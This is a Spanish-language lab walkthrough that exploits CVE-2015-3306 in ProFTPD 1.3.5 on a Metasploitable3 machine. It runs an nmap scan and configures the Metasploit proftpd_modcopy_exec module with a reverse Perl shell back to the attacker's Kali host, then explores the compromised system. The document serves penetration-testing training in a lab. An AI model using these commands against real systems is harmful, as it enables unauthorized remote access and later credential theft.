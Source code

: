# Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Requisitos:
1. Máquina ***Kali Linux***.
2. Máquina ***Metasploitable3_ubu1404***.

Como ya hemos visto, ***nmap*** es la herramienta estrella para descubrir los servicios presente en una víctima que resida en la misma red local que el atacante. 


Procedemos a realizar un nmap de todos los puertos en la víctima (***192.168.20.13***). El parámetro ***-sV*** sondea los puertos abiertos para determinar la versión de cada servicio. Conocer la versión es importante para determinar si existen vulnerabilidades que se puedan implementar. (Nota: Tardará bastante tiempo. Tener paciencia)
```
nmap -sV 192.168.20.13 -p 0-65535
```

El resultado debe ser similar al siguiente. Observar como el rectángulo rojo marca que se ha detectado la aplicación ***ProFTPD 1.3.5***. También comprobar cómo el rectángulo azul indica que hay un servidor web presente en el puerto ***80***.

![ProFTPD 1.3.5](../img/lab-30-A/180820221102.png)

Localizamos información sobre vulnerabilidades en ***CVE Details*** y encontramos que existe una de ***nivel 10***: https://www.cvedetails.com/cve/CVE-2015-3306/. Abrir el link y estudiarlo detenidamente.

En la parte inferior de la página puede observar que se dice que ***No hay ningún módulo de Metasploit relacionado con esta entrada CVE***, pero eso no es correcto, como veremos a continuación.

Una búsqueda un poco más detenida demuestra que Metasploit sí que puede explotar la vunerabilidad presente en ***ProFTP 1.3.5***: https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/

Como puede leerse en la documentación, el módulo ***proftpd_modcopy_exec*** de Metasploit, se aprovecha de la vulnerabilidad presente en la implementación del comando ***SITE CPFR/CPTO*** de ***ProFTPD***. Cualquier cliente (de FTP) no autenticado (No hace falta conocer credenciales) puede aprovecharse para copiar archivos en ***cualquier carpeta*** del sistema de archivos de la víctima. Los comandos de copia se ejecutan con los derechos (identidad) del servicio ProFTP, que por defecto corre bajo los privilegios del usuario ***nobody***. Mediante el uso de ***/proc/self/cmdline*** es posible subir a la víctima un archivo php que implemente una shell inversa, mediante el cual podemos tomar el control de la víctima.


Cargamos la consola de ***Metasploit*** si no estuviera iniciada.
```
msfconsole
```

Cargamos el módulo del exploit.
```
use exploit/unix/ftp/proftpd_modcopy_exec
```

Mostramos las opciones de configuración.
```
show options
```

La salida será la siguiente.
![Opciones del módulo](../img/lab-30-A/180820221143.png)

Las configuraciones que debemos proporcionar son:

* *RHOSTS*: Obligatoria. Debemos poner la IP de la victima, que en nuestro escenario será ***192.168.20.13***.
* *RPORT*: Obligatoria. Una vez subido el payload PHP, el ataque se produce por medio de una Request HTTP. De esta forma, para que el ataque funcione, se necesita un servidor web en la víctima. Este hecho ha sido comprobado en el ejercicio anterior. Como puedes comprobar, no es necesario cambiar este valor (***80***), porque es el puerto correcto donde el servidor ***Apache*** está sirviendo peticiones.
* *RPORT_FTP*: Obligatoria. Este ataque necesita la presencia del servidor ***ProFTPD 1.3.5***, que como hemos comprobado anteriormente, está presente y escuchando en el puerto ***21***, por lo que no es necesario cambiar este ajuste.
* *SITEPATH*: Obligatoria. Es la ruta del directorio raíz del servidor web. En ***Apache*** es ***/var/www/html***. La configuración por defecto que puedes ver es ***/var/www***, que no coincide, por lo que debemos cambiarla a ***/var/www/html***. ***/proc/self/cmdline*** copiará en este directorio el payload php.
* *TARGETURI*: Obligatoria. Es la URI a la que se conectará el exploit. En ella se espera encontrar el payload php que será llamado por la Request HTTP.
* *TMPPATH*: El exploit no funciona copiando directamente el payload php a la carpeta ***/var/www/html***, si no que lo copia primero a una carpeta temporal y luego, desde ésta al directorio ***html***. Por lo tanto, la configuración debe tener una carpeta en la que no existan problemas de permisos. La candidata ideal es ***/tmp***, así que no modificamos esta configuración.

Mostramos los ***targets***, que en ***Metasploit*** son los servicios vulnerables.
```
show targets
```

La salida muestra que el único objetivo posible es ***ProFTP*** en su versión ***1.3.5***.

![show targets](../img/lab-30-A/180820221222.png)

Ninguna otra versión de esta aplicación presenta la vulnerabilidad, por lo que una simple actualización de la misma cerraría la vulnerabilidad.

Configuramos el módulo para el ataque.
```
set RHOST 192.168.20.13
```
```
set SITEPATH /var/www/html
```

Comprobamos que todas las opciones requeridas (***RHOSTS***, ***RPORT***, ***RPORT_FTP***, ***SITEPATH***, ***TARGETURI*** y ***TMPPATH***) tienen valor.
```
show options
```

Mostramos los ***Payloads*** compatibles con este ataque:
```
show payloads
```

La salida mostrará lo siguiente.

![show payloads](../img/lab-30-A/180820221239.png)

Debemos elegir un tipo de payload que pueda ejecutarse en la víctima. En la mayoría de los sistemas Linux se encuentran instalado ***Python*** y ***Perl***. Sería cuestión de ir probando si no se está seguro. En ***Metasplitable3*** están instalados todos.

Seleccionamos el payload
```
set payload payload/cmd/unix/reverse_perl
```

Cuando seleccionamos un payload, aparecen opciones adicionales a las del módulo, que debemos configurar.
```
show options
```

![opciones del payload](../img/lab-30-A/180820221245.png)

* *LHOST*: Obligatoria. Siempre es la máquina que ataca, y a la que se conectará la shell inversa cuando el payload se active. En nuestro caso es la máquina ***Kali***, así que debemos poner en ella su IP (***192.168.20.9***)
* *LPORT*: Obligatoria. Es el puerto de escucha que abrirá la máquina ***Kali***, y al que se conectará la shell inversa del payload. Para que los perimetrales no presenten impedimentos, se podría poner en valor ***80*** o, mejor ***443***. Como en el laboratorio no hay este tipo de impedimentos, dejamos el valor propuesto.
```
set LHOST 192.168.20.9
```

Iniciamos el ataque.
```
run
```

Como se puede comprobar tenemos una sesion remota. 

![Sesión remota](../img/lab-30-A/180820221305.png)

Podemos escribir comandos y ver el resultado.
```
whoami
```

También podemos mostrar la ayuda para ver las posibilidades que este payload ofrece.
```
help
```

![Comandos disponibles](../img/lab-30-A/180820221308.png)

Además de ***bajar*** o ***subir*** archivos, podemos invocar una ***shell*** más potente, basada en ***python***
```
shell
```

Esto será posible si en la víctima se encuentra instalado ***Python***. Pulsamos la tecla ***Enter*** para activar la shell.

![Shell basada en Python](../img/lab-30-A/180820221311.png)

Podemos movernos por el sistema con la identidad ***www-data***, y rápidamente vemos que tenemos permiso de escritura en el directorio ***drupal***, lo que permitiría iniciar otro tipo de ataque, por ejemplo para capturar credenciales.

![Permiso escritura en Drupal](../img/lab-30-A/180820221317.png)

Salimos de la shell de Python.
```
exit
```

Pulsamos ***CTRL+C*** para abortar la sessión y volver al prompt de ***Metasploit***.
